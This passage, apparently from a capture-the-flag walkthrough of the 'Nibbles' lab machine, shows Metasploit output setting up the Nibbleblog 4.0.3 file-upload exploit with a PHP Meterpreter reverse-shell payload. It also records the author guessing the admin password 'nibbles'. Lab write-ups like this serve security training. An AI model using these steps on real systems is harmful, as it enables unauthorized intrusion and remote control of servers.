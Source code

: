 ```

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.205    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf6 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.10.10.75
rhosts => 10.10.10.75
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog/
targeturi => /nibbleblog/
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost tun0
lhost => tun0
msf6 exploit(multi/http/nibbleblog_file_upload) > 
```

There is a login page for Nibbleblog on http://10.10.10.75/nibbleblog/admin.php:

![ImgPlaceholder](nibbleblogadmin.jpeg)

We can, however, easily guess the password 'nibbles':

![ImgPlaceholder](nibbleblog-loggedin.jpeg)

With this info we can set the correct parameters in Metasploit and launch the attack:

```
msf6 exploit(multi/http/nibbleblog_file_upload) > options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.75      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog/     yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3
```